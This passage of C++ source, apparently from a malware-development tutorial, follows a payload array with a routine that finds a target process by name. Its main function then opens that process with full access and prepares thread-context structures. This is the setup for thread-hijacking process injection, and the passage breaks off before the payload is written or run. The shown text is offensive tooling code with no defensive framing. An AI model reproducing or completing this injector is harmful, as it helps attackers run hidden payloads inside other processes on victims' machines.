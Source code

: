 ```cpp
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer

  HANDLE hSnapshot;
  THREADENTRY32 te;
  CONTEXT ct;

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ct.ContextFlags = CONTEXT_FULL;
    te.dwSize = sizeof(THREADENTRY32);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed! exiting...\n");
      return -2;
```